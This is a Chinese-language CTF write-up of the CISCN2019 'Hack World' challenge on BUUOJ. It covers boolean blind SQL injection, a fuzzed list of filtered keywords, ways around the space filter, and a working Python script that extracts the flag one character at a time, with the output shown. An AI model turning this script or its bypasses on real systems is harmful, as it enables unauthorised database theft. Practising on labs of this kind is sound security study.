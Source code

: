 ```yaml
---
title: buuoj刷题记录3
date: 2019-12-27 12:42:41
tags:
 - ciscn
 - web
 - ctf
 - buuctf
---
```


## [CISCN2019 华北赛区 Day2 Web1]Hack World

### 0x00 基础

SQL盲注，使用`if(表达式1，表达式2，表达式3)、ascii(char)、substr（str,pos,len）`函数一个一个的猜字符，过滤绕过，空格可以使用`+、\t、/**/、()`绕过。
```
if(表达式1，表达式2，表达式3)  如果表达式1的值为真，取表达式二的值，否者取表达式三的值
ascii(char)
substr（str,pos,len)
```
<!--more-->

### 0x01 分析

题目提示

```
flag{} 里为 uuid
```

访问页面

![](/pic/3.jpg)



使用burp suite进行sql fuzz测试，以下字符被过滤

|       %20        | 482  | SQL Injection Checked |
| :--------------: | ---- | --------------------- |
|       AND        | 482  | SQL Injection Checked |
|      DELETE      | 482  | SQL Injection Checked |
|     END-EXEC     | 482  | SQL Injection Checked |
|      GROUP       | 482  | SQL Injection Checked |
|      INSERT      | 482  | SQL Injection Checked |
|       INTO       | 482  | SQL Injection Checked |
|      LIMIT       | 482  | SQL Injection Checked |
|        OR        | 482  | SQL Injection Checked |
|      UNION       | 482  | SQL Injection Checked |
|      UPDATE      | 482  | SQL Injection Checked |
|        +         | 482  | SQL Injection Checked |
|        /         | 482  | SQL Injection Checked |
|        -         | 482  | SQL Injection Checked |
|        *         | 482  | SQL Injection Checked |
|        `         | 482  | SQL Injection Checked |
|        "         | 482  | SQL Injection Checked |
|       \|\|       | 482  | SQL Injection Checked |
|        &&        | 482  | SQL Injection Checked |
|       %23        | 482  | SQL Injection Checked |
|;|482|SQL Injection Checked |
`if,substr,ascii,<,>,=,(),/t`都没有被过滤，可以使用盲注,编写脚本，空格被过滤使用`/t、( )代替`

### 0x02 开始操作

```pytho
# -*- coding: utf-8 -*-
# @Time    : 12/27/2019 6:11 PM
import requests
import time

url = "http://97d580f3-633c-469e-826c-3e251279ebba.node3.buuoj.cn/index.php"
result = ''

for x in range(1, 43):
    high = 126
    low = 45
    mid = (low + high) // 2


    while high - low > 1:
        payload = "if(ascii(substr((select(flag)from(flag)),%d,1))>%d,1,2)" % (x, mid)
        data = {
            "id": payload
        }
        time.sleep(0.3)
        res = requests.post(url, data = data)
        if 'Hello' in res.text:
            low = mid
        else:
            high = mid
        mid = (low + high) // 2

    if high - low == 1:
        payload = "if(ascii(substr((select(flag)from(flag)),%d,1))=%d,1,2)" % (x, high)
        data = {
            "id": payload
        }
        response = requests.post(url, data=data)
        if 'Hello' in response.text:
            result += chr(int(mid+1))
        else :
            result += chr(int(mid))
    else :
        result += chr(int(mid))
    print(result)
```

```
f
fl
fla
flag
flag{
flag{a
flag{a2
flag{a22
flag{a22c
flag{a22cf
flag{a22cf6
flag{a22cf69
flag{a22cf690
flag{a22cf690-
flag{a22cf690-3
flag{a22cf690-34
flag{a22cf690-342
flag{a22cf690-342a
flag{a22cf690-342a-
flag{a22cf690-342a-4
flag{a22cf690-342a-4b
flag{a22cf690-342a-4bf
flag{a22cf690-342a-4bf4
flag{a22cf690-342a-4bf4-
flag{a22cf690-342a-4bf4-8
flag{a22cf690-342a-4bf4-88
flag{a22cf690-342a-4bf4-885
flag{a22cf690-342a-4bf4-885b
flag{a22cf690-342a-4bf4-885b-
flag{a22cf690-342a-4bf4-885b-d
flag{a22cf690-342a-4bf4-885b-df
flag{a22cf690-342a-4bf4-885b-df3
flag{a22cf690-342a-4bf4-885b-df33
flag{a22cf690-342a-4bf4-885b-df332
flag{a22cf690-342a-4bf4-885b-df332d
flag{a22cf690-342a-4bf4-885b-df332d4
flag{a22cf690-342a-4bf4-885b-df332d44
flag{a22cf690-342a-4bf4-885b-df332d446
flag{a22cf690-342a-4bf4-885b-df332d4469
flag{a22cf690-342a-4bf4-885b-df332d44698
flag{a22cf690-342a-4bf4-885b-df332d44698d
flag{a22cf690-342a-4bf4-885b-df332d44698d}
```

因为平台有访问频率限制，导致之前很多次都不成功，加入时间模块稍微延迟一下即可。



